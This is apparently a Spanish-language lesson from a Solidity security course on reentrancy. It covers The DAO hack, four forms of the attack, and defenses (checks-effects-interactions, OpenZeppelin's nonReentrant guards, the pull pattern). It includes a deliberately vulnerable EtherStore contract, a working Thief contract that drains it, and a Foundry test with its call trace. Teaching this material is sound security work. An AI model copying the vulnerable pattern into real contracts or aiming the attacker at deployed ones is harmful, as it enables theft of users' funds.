

# Teoría 01 — Reentrancy

## 🎯 Objetivos

- Explicar por qué una llamada a otro contrato le da el control de la ejecución.
- Reconocer las cuatro formas de reentrancy: en una función, entre funciones, entre contratos
  y de solo lectura.
- Escribir un atacante en Foundry y leer su traza de llamadas anidadas.
- Defender un contrato con checks-effects-interactions y con `nonReentrant`, y saber qué cubre
  cada uno.

## 1. Qué problema resuelve

Fase 5. Desde la semana 03, cada teoría ha cerrado con los riesgos de lo que enseñaba. Esta
semana y la siguiente los ordenan por clases, como hace un auditor: para cada una, cómo se
ataca, cómo se defiende y cómo se prueba que la defensa funciona. Una **vulnerabilidad** es un
fallo del código que alguien puede usar para hacer algo que el contrato no debería permitir; un
**exploit** es el código o la secuencia de transacciones que la usa.

La primera clase es la más famosa. En junio de 2016, un contrato llamado The DAO guardaba unos
3,6 millones de ETH de miles de personas. Su función de retirada enviaba el ETH **antes** de
restar el saldo. Un atacante desplegó un contrato que, al recibir el ETH, volvía a pedir la
retirada, una y otra vez, con el mismo saldo. Para deshacerlo, Ethereum cambió las reglas con
un hard fork (una actualización del protocolo que no aceptan todos los nodos); la cadena que
siguió con las reglas viejas es Ethereum Classic.

Ocho años después sigue apareciendo cada año en informes de auditoría. No por ignorancia, sino
porque toma formas que no parecen la de The DAO.

## 2. Cómo funciona

### Una llamada entrega el control

En la semana 07 enviaste ETH con `call`, y en la 10 llamaste a otros contratos. En los dos
casos pasa lo mismo: la EVM **pausa** tu función, ejecuta el código del otro contrato y, cuando
termina, sigue con la línea siguiente de la tuya. Mientras tanto, el otro contrato puede hacer
cualquier cosa, incluida llamar otra vez al tuyo.

Una **reentrancy** (reentrada) es eso: una llamada externa que vuelve a entrar en tu contrato
antes de que la primera ejecución termine. Es peligrosa cuando tu contrato está **a medias**:
ha decidido algo (pagar 1 ETH) pero todavía no lo ha anotado (saldo a 0).



### El ataque, paso a paso

**Dónde**: en un proyecto Foundry cualquiera dentro del contenedor, `src/EtherStore.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.38;

contract EtherStore {
    mapping(address => uint256) public balanceOf;

    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balanceOf[msg.sender];
        (bool ok,) = msg.sender.call{value: amount}(""); // ❌ envía antes de anotar
        require(ok, "send failed");
        balanceOf[msg.sender] = 0;
    }
}

contract Thief {
    EtherStore public immutable STORE;

    constructor(EtherStore store) {
        STORE = store;
    }

    function attack() external payable {
        STORE.deposit{value: msg.value}();
        STORE.withdraw();
    }

    receive() external payable {
        if (address(STORE).balance >= 1 ether) STORE.withdraw();
    }
}
```

Y el test, en `test/EtherStore.t.sol`: alguien deposita 2 ETH y el ladrón ataca con 1.

```solidity
function test_Drain() public {
    EtherStore store = new EtherStore();
    vm.deal(address(this), 3 ether);
    store.deposit{value: 2 ether}();
    Thief thief = new Thief(store);
    thief.attack{value: 1 ether}();
    assertEq(address(store).balance, 0);
    assertEq(address(thief).balance, 3 ether);
}
```

**Ejecuta** `forge test -vvvv --mt test_Drain`. Con cuatro `v`, Foundry imprime la **traza**: el
árbol de llamadas, con el gas de cada una entre corchetes. La parte del ataque:

```text
    ├─ [77682] Thief::attack{value: 1000000000000000000}()
    │   ├─ [22537] EtherStore::deposit{value: 1000000000000000000}()
    │   │   └─ ← [Stop]
    │   ├─ [24089] EtherStore::withdraw()
    │   │   ├─ [16468] Thief::receive{value: 1000000000000000000}()
    │   │   │   ├─ [15947] EtherStore::withdraw()
    │   │   │   │   ├─ [8326] Thief::receive{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [7805] EtherStore::withdraw()
    │   │   │   │   │   │   ├─ [184] Thief::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   └─ ← [Stop]
```

Tres `withdraw` anidados, cada uno dentro del `receive` del anterior. Los tres leen
`balanceOf[thief] = 1 ether`, porque ninguno ha llegado todavía a la línea que lo pone a 0. Esa
línea se ejecuta tres veces al final, de dentro hacia fuera, y ya no importa.

### Las cuatro formas

| Forma | Qué vuelve a entrar | Ejemplo |
| ----- | ------------------- | ------- |
| En una función | La misma función | The DAO, `EtherStore` |
| Entre funciones | Otra función del mismo contrato que lee el estado a medias | `transfer` durante `withdraw` (ejercicio 01) |
| Entre contratos | Otro contrato que confía en el estado del primero | Un vault que consulta el saldo de un token mientras ese token está a mitad de una transferencia |
| De solo lectura | Una función `view` de la que depende **otro** protocolo | Un préstamo que calcula el precio de tu token con un `view` tuyo leído a mitad de una retirada |

La de **solo lectura** (read-only reentrancy) es la más difícil de ver: tu contrato no pierde
nada, porque nadie escribe en él durante la reentrada. Pero un `view` como `totalAssets()`
devuelve un número a medias, y otro protocolo que lo usa como precio presta de más. En 2023
varios protocolos que leían precios de pools de Curve perdieron fondos así.

### No solo `call` con ETH

Cualquier llamada a código que no controlas abre la puerta. Algunas no lo parecen:

- `_safeMint` y `safeTransferFrom` de ERC-721 y ERC-1155 (semana 12) llaman a
  `onERC721Received`/`onERC1155Received` del receptor, si es un contrato.
- Los tokens con hooks, como ERC-777, llaman a quien envía y a quien recibe en cada
  transferencia.
- Tu hook del proyecto: el registro llama a `onItemRegistered` en mitad de cada alta.

## 3. Cómo se escribe

### Checks, effects, interactions

El orden que lo evita tiene nombre: **checks-effects-interactions** (CEI).

1. **Checks**: comprueba todo (`if (...) revert`).
2. **Effects**: escribe en tu storage todo lo que cambia.
3. **Interactions**: al final, llama a otros contratos o envía ETH.

```solidity
function withdraw() external {
    uint256 amount = balanceOf[msg.sender];
    if (amount == 0) revert NothingToWithdraw(); // checks
    balanceOf[msg.sender] = 0;                     // effects
    (bool ok,) = msg.sender.call{value: amount}(""); // interactions
    if (!ok) revert TransferFailed();
}
```

Si el receptor vuelve a entrar, encuentra el saldo a 0 y revierte. CEI protege también contra
la reentrancy entre funciones: cualquier otra función que lea `balanceOf` ve ya el valor final.

### `nonReentrant`

CEI depende de que **todas** las funciones estén bien ordenadas, hoy y después de cada cambio.
Un **cerrojo de reentrancy** (reentrancy guard) no depende de eso: una variable que se pone a
"dentro" al entrar en la función y a "fuera" al salir. Si al entrar ya está en "dentro", revierte.

OpenZeppelin lo da hecho. Desde la versión 5.1 recomienda `ReentrancyGuardTransient`, que guarda
el cerrojo en **transient storage** (EIP-1153): un almacenamiento que funciona como el storage
pero se borra solo al final de cada transacción. Escribirlo cuesta 100 de gas en vez de los
miles de un `SSTORE`, y no deja nada guardado entre transacciones.

```solidity
import {ReentrancyGuardTransient} from "@openzeppelin/contracts/utils/ReentrancyGuardTransient.sol";

contract Bank is ReentrancyGuardTransient {
    function transfer(address to, uint256 amount) external nonReentrant { /* ... */ }
    function withdraw() external nonReentrant { /* ... */ }
}
```

Mientras `withdraw` se ejecuta, `transfer` y la propia `withdraw` revierten con
`ReentrancyGuardReentrantCall()`, de selector `0x3ee5aeb5`:

```bash
cast sig "ReentrancyGuardReentrantCall()"
```

```text
0x3ee5aeb5
```

Para la de solo lectura, el mismo contrato trae `nonReentrantView`: un modificador para
funciones `view` que revierte si se llaman con el cerrojo echado. Así, quien lea tu
`totalAssets()` a medias recibe un error en vez de un número falso.

### Pull en vez de push

La tercera defensa es no enviar: apuntar lo que se debe y dejar que cada uno lo retire con su
propia transacción (patrón **pull**). La retirada sigue enviando ETH, así que sigue llevando CEI,
pero hay una sola función que envía, pequeña y fácil de revisar. La teoría 03 vuelve a él.

## 4. Antipatrones y riesgos

- **Anotar después de llamar.** Cualquier escritura en storage después de una llamada externa
  es sospechosa. Lee cada función buscando la última llamada y mira qué se escribe debajo.
- **Proteger solo la función que envía.** Si `withdraw` lleva `nonReentrant` pero `transfer` no,
  el ataque entre funciones sigue abierto. El cerrojo es uno para todo el contrato: ponlo en
  todas las que tocan el mismo estado.
- **Confiar en el límite de 2300 de gas.** `transfer` y `send` de Solidity envían ETH con solo
  2300 de gas, y durante años eso se tomó como defensa: no da para volver a entrar. Cambios en
  el coste de los opcodes (EIP-1884, EIP-2929) ya rompieron contratos que dependían de él, y
  pueden volver a hacerlo. Usa `call` y defiéndete con CEI.
- **Olvidar las llamadas que no parecen llamadas.** `_safeMint`, `safeTransferFrom`, tokens con
  hooks y cualquier `IERC20(token).transfer` con un token que no conoces.
- **`nonReentrant` entre dos funciones que se llaman entre sí.** Si una función con el
  modificador llama internamente a otra que también lo tiene, revierte siempre. La solución de
  OpenZeppelin: una función `external` con el modificador que llama a una `private` sin él.

## 5. Trucos

- Para encontrar candidatas, busca en tu código `.call`, `safeTransfer`, `_safeMint` y cada
  llamada a una interfaz, y comprueba qué hay escrito **después**.
- En un test de ataque, guarda en el atacante el error de la reentrada con `try`/`catch`: el test
  puede comprobar **por qué** falló, no solo que falló.
- `forge test -vvvv` muestra la traza: una reentrancy se ve como la misma función dentro de sí
  misma.

## ✅ Checklist

- [ ] Sé qué hace la EVM con mi función mientras se ejecuta una llamada externa.
- [ ] Distingo la reentrancy en una función, entre funciones, entre contratos y de solo lectura.
- [ ] Ordeno cada función que llama fuera con checks-effects-interactions.
- [ ] Sé qué cubre `nonReentrant`, qué cubre `nonReentrantView` y por qué el cerrojo va en todas
  las funciones que comparten estado.
- [ ] Leo una traza de `forge test -vvvv` y encuentro las llamadas anidadas.

---

| Anterior | Actual | Siguiente |
| -------- | ------ | --------- |
| [← Semana 21 — Vulnerabilidades clásicas](../README.md) | **Teoría 01 — Reentrancy** | [Teoría 02 — Control de acceso y `tx.origin` →](02-control-de-acceso-y-tx-origin.md) |
